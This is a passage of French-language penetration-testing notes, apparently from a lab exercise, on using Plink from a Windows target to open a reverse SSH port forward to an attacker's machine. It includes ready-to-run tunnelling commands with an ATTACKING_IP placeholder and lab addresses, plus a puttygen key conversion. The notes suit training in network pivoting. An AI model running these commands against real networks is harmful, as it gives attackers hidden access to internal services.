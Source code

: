 Il est peu probable que les serveurs Windows aient un serveur SSH en cours d'exécution. Notre utilisation de Plink a donc tendance à consister à transporter le binaire vers la cible, puis à l'utiliser pour créer une connexion inverse.

```sh
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT kali@ATTACKING_IP -i KEYFILE -N
```

> [!NOTE]  exemple
> Si nous avons accès à 172.16.0.5 et souhaitons transférer une connexion vers 172.16.0.10:80 vers le port 8000 de notre propre machine attaquante (172.16.0.20), nous pourrions utiliser cette commande:

```sh
cmd.exe /c echo y | plink.exe -ssh -l kali -pw core -R 8000:172.16.0.10:80 172.16.0.20 -N
```

Ou avec la cle :

```sh
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i id_rsa.ppk -N
```

Notez que toutes les clés générées par `ssh-keygen` ne fonctionneront pas correctement ici.Vous devrez les convertir à l'aide de l'outil `puttygen`:

```sh
puttygen id_rsa -o id_rsa.ppk
```

Le fichier `.ppk` résultant peut ensuite être transféré vers la cible Windows et utilisé exactement de la même manière qu'avec la redirection de port inversée